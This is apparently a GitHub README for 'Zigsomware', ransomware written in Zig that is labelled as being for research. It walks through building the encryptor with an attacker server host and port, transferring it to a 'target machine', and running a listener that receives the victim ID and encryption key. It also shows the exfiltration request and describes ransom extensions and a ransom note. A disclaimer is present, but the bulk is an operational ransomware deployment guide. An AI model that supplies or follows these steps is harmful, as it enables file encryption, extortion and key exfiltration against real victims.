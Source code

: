 # :t-rex: Zigsomware :t-rex:

Zigsomware is a ransomware example written in Zig, for research purpose.  
Its target is cross-platform, supporting Linux, madOS, Windows, etc.

<br />

## Features

The Zigsomware is composesd of two executable files:

- `zigsom`:
    - Encrypts files with XChaCha20-Poly1305 algorithm.
    - Sends the encryption key and the victim ID to the specified server.

- `unlock`:
    - Decrypts the files that are encrypted by `zigsom`.

<br />

## Requirements

- Zig version 0.14.0+

<br />

## :warning: ATTENTION

- The project aims to help security research and educational purposes. Do not use it on any systems not under your control.
- Don't use it on your personal machine. Instead, use it on your test environment such as VM.
- Anyway, use it at your own risk.

<br />

# Tutorial

## 1. Build

First clone the repository:

```sh
git clone https://github.com/hideckies/zigsomware.git
cd zigsomware
```

And build the project with specified options:

```sh
# -Dtarget: The CPU architecture, OS, and ABI to build for e.g. 'x86_64-linux', 'x86_64-macos', 'x86_64-windows'
# -Ddir: Path of the directory to start encryption (default: './victim/')
# -Dserver_host: Server address
# -Dserver_port: Server port
# -Dserver_path: The URL path of the server to receive the encryption key and the victim ID.
# -Dlevel: The level at which Zigsomware encrypts files. The higher the level, the more files will be encrypted. [1: safe, 2: normal, 3: danger] (default: 1)
zig build \
-Dtarget=x86_64-windows \
-Ddir=./victim/ \
-Dserver_host=127.0.0.1 -Dserver_port=4444 -Dserver_path=/ \
-Dlevel=1
```

As above, we need to specify the server host/port/path for allowing the Zigsomware to send the encryption key to. We can also set other servers/endpoints such as `ngrok`.  

After building, the executables are generated under `zig-out` directory:

```sh
# e.g.
file ./zig-out/bin/unlock.exe
file ./zig-out/bin/zigsom.exe
```

Transfer the `zigsom.exe` to the target machine.  
Do not transfer the `unlock.exe` yet because it is used for decryption.

## 2. Start Attacker Server

To receive the encryption key and the victim ID from the `zigsom`, we need to start the web server in your local machine. Here, we simply run Python HTTP server.

```sh
python3 -m http.server 4444
```

## 3. Encryption

In the target machine, execute the `zigsom`. We assume that the `victim` directory exist in the current directory.

```sh
# Check if the 'victim' directory exists.
dir .\victim

# Now execute it to encrypt files under the 'victim' directory.
.\zigsom.exe
```

When executed, the `zigsom` does the following:

1. Generates the encryption key and encodes with Base64.
2. Sends **the Base64-encoded encryption key** and **the victim ID** to our attacker server (`http://127.0.0.1:4444/?id=123456&key=xxxxxxxxxxxxxxxxxx`).
3. Using the encryption key, it encrypts files under the `victim` directory that has been specified during `zig build`.
4. Adds ransom extensions (`.zigsom`) for each file.
5. Places a ransom note (`README.txt`) in the `victim` directory.

The encryption key and the victim ID can be seen in our attacker server's log as below:

```txt
127.0.0.1 - - [08/Sep/2024 21:42:52] "GET /?id=116219480&key=WN_1jH2JobcU3_9pwxXosWfmnlvB4Ju1pKQiZPRrf8Y HTTP/1.1" 200 -
```

This key (`WN_1jH2JobcU3_9pwxXosWfmnlvB4Ju1pKQiZPRrf8Y` here) is used for decryption.

*The `zigsom` sends **HTTPS** request at first. If it is failed, the `zigsom` sends **HTTP** request instead.  

## 4. Decryption

To decrypt the files, we (or rather, the victims) execute `unlock.exe` with **the Base64-encoded encryption key** and the specified directory (the `victim` here):

```sh
# -k: Base64-encoded encryption key
.\unlock.exe -k WN_1jH2JobcU3_9pwxXosWfmnlvB4Ju1pKQiZPRrf8Y .\victim\
```

When executed, the `unlock` does the following:

1. Decodes **the Base64-encoded encryption key**.
2. Decrypts files under the direcotry (`.\victim\`) using the encryption key.
3. Removes the ransom extensions (`.zigsom`) for each file.

